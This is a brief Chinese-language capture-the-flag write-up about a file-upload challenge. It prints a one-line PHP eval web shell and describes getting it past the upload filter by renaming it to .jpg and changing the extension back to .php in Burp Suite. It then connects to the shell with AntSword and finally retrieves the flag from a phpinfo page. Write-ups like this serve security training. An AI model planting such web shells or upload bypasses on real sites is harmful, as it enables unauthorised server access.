





直接上传php文件被拦截，于是上传一句话木马
```php
<?php @eval($_POST['r00ts']);?> 
```
更改后缀名为jpg
接下来使用bp在post修改后缀为php上传成功

接下来使用antsword进行连接，获取到文件列表



但是是假的

看其他大佬帖子发现在phpinfo中
于是再次上传,获取到flag
```php
<?php phpinfo(); ?>
```
